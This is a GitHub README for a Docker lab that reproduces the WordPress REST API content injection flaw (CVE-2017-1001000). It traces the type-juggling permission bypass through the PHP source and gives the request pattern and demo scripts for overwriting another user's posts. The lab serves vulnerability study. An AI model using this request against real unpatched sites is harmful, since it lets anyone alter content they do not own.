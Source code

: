 # docker-wordpress-content-injection

https://www.cvedetails.com/cve/CVE-2017-1001000/

## Install

```bash
# Launch two containers: mysql and wordpress
docker-compose up
```

**Warning:** a vulnerable Wordpress will be available on port `8080`.

You might need to install `docker-compose` first. If you get an error
`Couldn't connect to Docker daemon`, run it (and the following docker commands) with `sudo`.


```bash
# In another terminal
# Get the id of the mysql container
docker ps | grep dockerwordpresscontentinjection_db
./load_db.sh <mysql-container-id>
```
You can ignore the MySQL warning if you get one.

* Test the API:

```bash
./list_posts.sh
./create_post.sh mytitle mycontent
```

If you cannot create a post, you need to install the plugin [`JSON Basic Authentication`](https://github.com/WP-API/Basic-Auth):

* Download the plugin as zip
* Login on [WordPress admin](http://127.0.0.1:8080/wp-admin) (`admin/admin`)
* Go to [plugin page](http://127.0.0.1:8080/wp-admin/plugins.php)
* Add New
* Upload Plugin
* Select the .zip
* The plugin `JSON Basic Authentication` should appear on the plugins page. Activate it.

# Exploit

The requests are handled in `wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php`
[line 80](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L80).

The route needs a post id in the url:

```bash
./get_post.sh 10
```

If the id is not numeric, the API returns an error because the url does not match the regex:

```bash
./get_post.sh 10ABC
```

If a query param `id` is specified, its value overrides the one in the url body:

```bash
./get_post_query_param.sh 10 11
# The obtained id is 11 and not 10
```

**But if the query param id is not numeric, no errors are raised:**

```bash
./get_post_query_param.sh 10 11ABC
```

Now, let's take the request `POST /wp-json/wp/v2/posts/10?id=11ABC` and look at
the route to [update a post](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93):

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93

register_rest_route( $this->namespace, '/' . $this->rest_base . '/(?P<id>[\d]+)', array(
    // ... 
    array(
        'methods'             => WP_REST_Server::EDITABLE,
        'callback'            => array( $this, 'update_item' ),
        'permission_callback' => array( $this, 'update_item_permissions_check' ),
        'args'                => $this->get_endpoint_args_for_item_schema( WP_REST_Server::EDITABLE ),
    ),
    // ...
) );
```

Before performing the update, the function [`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item_permissions_check`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589)
is called:

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589

public function update_item_permissions_check( $request ) {
    // Because we sent the id in the query param, $request['id'] == "11ABC"
    $post = get_post( $request['id'] );
    $post_type = get_post_type_object( $this->post_type );

    // Surprisingly, if $post == null, the function does not return an error
    if ( $post && ! $this->check_update_permission( $post ) ) {
        return new WP_Error( 'rest_cannot_edit', __( 'Sorry, you are not allowed to edit this post.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['author'] ) && get_current_user_id() !== $request['author'] && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_edit_others', __( 'Sorry, you are not allowed to update posts as this user.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['sticky'] ) && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_assign_sticky', __( 'Sorry, you are not allowed to make posts sticky.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! $this->check_assign_terms_permission( $request ) ) {
        return new WP_Error( 'rest_cannot_assign_term', __( 'Sorry, you are not allowed to assign the provided terms.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    return true;
}
```

**Surprisingly, if `$post` is null, the function does not return an error.** Let's
give a look at
[`wp-includes/post.php:get_post`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/post.php#L515):

```php
// wp-includes/post.php#L515

function get_post( $post = null, $output = OBJECT, $filter = 'raw' ) {
    // $post == "11ABC"
    if ( empty( $post ) && isset( $GLOBALS['post'] ) )
        // ...
    if ( $post instanceof WP_Post ) {
        // ...
    } elseif ( is_object( $post ) ) {
        // ...
    } else { // As $post is a string, we enter here
        $_post = WP_Post::get_instance( $post );
    }
    // Because `WP_Post::get_instance( $post );` will return `false` (see explanations below)
    // the function returns `null`
    if ( ! $_post )
        return null;
    // ...
}
```

[`wp-includes/class-wp-post.php:WP_Post::get_instance`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/class-wp-post.php#L210)
will return `false` as `$post_id` is not numeric:

```php
// wp-includes/class-wp-post.php#L210

public static function get_instance( $post_id ) {
    global $wpdb;
    if ( ! is_numeric( $post_id ) || $post_id != floor( $post_id ) || ! $post_id ) {
        return false;
    }
    // ...
}
```

So `get_post` will return `null` and the permission check will pass. Then, the function
[`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L622)
will be called with `$request['id'] = "11ABC"`:

```php
public function update_item( $request ) {
    // $request['id'] == "11ABC"
    $id = (int) $request['id'];
    // $id == 11
    // Here, `get_post` does not return `null`
    // Then, we do not enter the `if` which returns an error
    $post = get_post( $id );
    if ( empty( $id ) || empty( $post->ID ) || $this->post_type !== $post->post_type ) {
        return new WP_Error( 'rest_post_invalid_id', __( 'Invalid post ID.' ), array( 'status' => 404 ) );
    }
    // The item will be updated
    // ...
}
```

This time, the function `get_post` is called **with the id cast as an integer**. Due
to PHP [type-juggling](http://php.net/manual/en/language.types.type-juggling.php),
the variable `$id` will be equal to `11`. So `get_post` won't return `null` and `update_item`
won't return an error. **Because we have already
passed the permission check step**, the post with id `11` will be updated
even if it belongs to another user.

To conclude, it is possible for anyone to update any post of id `N` with a request such
as `POST /wp-json/wp/v2/posts/1984?id=N_then_non_numeric_chars`.

## Demo

Make sure Wordpress is running:

```bash
docker-compose up
```

Get the posts of author1:

```bash
./list_posts.sh author1
```

Update a post:

```bash
./update_post.sh 14 mysupercontent author1
./get_post.sh 14 # The content has changed
```

Get the posts of author2:

```bash
./list_posts.sh author2
```

Update a post of author2 with author1:

```bash
./update_post.sh 17 mysupercontent author1
# Error: Sorry, you are not allowed to edit this post.
```

Update a post of author2 with author1 and a malicious url:

```bash
./exploit.sh 17 mysupercontent author1
./get_post.sh 17 # The content has changed
```

Stop the containers:

```bash
docker-compose stop
docker-compose rm
```
